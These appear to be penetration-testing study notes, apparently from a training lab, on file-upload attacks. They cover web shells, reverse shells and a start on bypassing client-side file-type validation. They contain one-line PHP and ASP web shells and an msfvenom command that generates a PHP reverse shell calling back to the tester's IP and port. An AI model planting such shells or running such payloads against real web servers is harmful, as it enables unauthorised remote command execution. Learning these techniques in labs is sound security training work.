  [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages, which can be found in the `/opt/useful/seclists/Web-Shells` directory in `PwnBox`.

## Writing Custom Web Shell

```php
<?php system($_REQUEST['cmd']); ?>
```

For .NET web applications, we can pass the cmd parameter with request('cmd') to the eval() function

```asp
<% eval request('cmd') %>
```

## Reverse Shell

Finally, let's see how we can receive reverse shells through the vulnerable upload functionality

One reliable reverse shell for `PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell.

Let's download one of the above reverse shell scripts, like the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell), and then open it in a text editor to input our `IP` and listening `PORT`, which the script will connect to. For the `pentestmonkey` script, we can modify lines `49` and `50` and input our machine's IP/PORT:


## Generating Custom Reverse Shell Scripts
Luckily, tools like `msfvenom` can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place

```shell
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```
 We can use many reverse shell payloads with the `-p` flag and specify the output language with the `-f` flag.

# Client-Side Validation

Many web applications only rely on front-end JavaScript code to validate the selected file format before it is uploaded and would not upload it if the file is not in the required format (e.g., not an image).

We may still select the `All Files` option to select our `PHP` script anyway, but when we do so, we get an error message saying (`Only images are allowed!`), and the `Upload` button gets disabled:

As mentioned earlier, to bypass these protections, we can either `modify the upload request to the back-end server`, or we can `manipulate the front-end code to disable these type validations`.

## Back-end Request Modification

![[Pasted image 20250222151013.png]]The web application appears to be sending a standard HTTP upload request to `/upload.php`.
